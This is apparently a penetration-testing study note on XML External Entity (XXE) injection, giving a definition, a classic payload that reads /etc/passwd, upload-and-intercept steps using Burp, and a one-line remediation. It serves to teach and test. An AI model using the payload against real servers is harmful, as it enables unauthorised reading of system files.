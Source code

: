 # XML External Entities Injection (XXE)

## What is XXE?

1. <mark style="color:yellow;">Attacking systems that parse XML input</mark>
2. Abuse SYSTEM entity and get malicious
3. <mark style="color:yellow;">Attacks include DoS, LFI, RCE, and more</mark>

Can you place malicious XML files onto a server and get the web application to parse the XML and trigger the attack?

### Test XML File for XXE Testing

Classic XXE:

{% code overflow="wrap" %}
```
<?xml version="1.0"?><!DOCTYPE root [<!ENTITY test SYSTEM 'file:///etc/passwd'>]><root>&test;</root>
```
{% endcode %}

```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE gift [
    <!ENTITY from "hacker">
]>

<gift>
    <To>Frank</To>
    <From>&from;</From>
    <Item>Baseball Cards</Items>

</gift>
```

### XXE Payloads (PayloadsAllTheThings)

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection#billion-laugh-attack" %}

## XXE Attack and Defense

* You should attempt to identify file upload possibilities
* Once you identify a file upload, upload it to the web app and intercept the request with Burp
* If the XML is parsed, it will trigger the malicious code and return the results blindly (hence why you need Burp)

Response intercepted from Burp:

* you can see that we see the results of /etc/passwd

<figure><img src="../.gitbook/assets/image (10) (1) (3).png" alt=""><figcaption></figcaption></figure>

## Remediation

* If you disable external entities
* Once you do this, you will be able to mitigate this vulnerability
